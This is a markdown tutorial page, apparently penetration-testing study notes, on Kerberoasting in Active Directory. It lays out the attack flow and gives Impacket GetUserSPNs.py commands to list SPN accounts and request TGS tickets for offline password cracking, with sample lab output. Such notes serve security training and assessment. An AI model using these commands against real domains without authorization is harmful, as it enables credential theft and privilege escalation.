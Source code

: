 # Kerberoasting in Active Directory Environments

Kerberoasting is a post-exploitation attack technique that targets service accounts in Active Directory by requesting Kerberos service tickets (TGS) for accounts with Service Principal Names (SPNs) and attempting to crack them offline. This attack can be performed from both Linux and Windows, and is a common method for privilege escalation and lateral movement during internal assessments.

---

## Table of Contents
- [Kerberoasting from Linux](#kerberoasting-from-linux)
- [Kerberoasting from Windows](#kerberoasting-from-windows)

---

## Kerberoasting from Linux

### Overview
- Any domain user can request TGS tickets for SPN accounts.
- Tools like Impacket's GetUserSPNs.py automate enumeration and ticket extraction.

### Attack Flow
1. Enumerate SPN accounts in the domain.
2. Request TGS tickets for those accounts.
3. Crack the tickets offline to recover cleartext passwords.
4. Use cracked credentials for lateral movement or privilege escalation.

### Tool: Impacket GetUserSPNs.py
- Standard tool for Kerberoasting from Linux.
- Requires valid domain credentials and the IP of a Domain Controller.

#### Install Impacket (if needed)
```bash
sudo python3 -m pip install .
```

#### List SPN Accounts
```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER>
```
**Example Output:**
```
ServicePrincipalName                           Name         MemberOf                ...
---------------------------------------------  -----------  ---------------------- ...
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev       CN=Domain Admins,...
...
```

#### Request TGS Tickets for All SPNs
```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request
```
- Outputs TGS tickets in hashcat/john format for offline cracking.

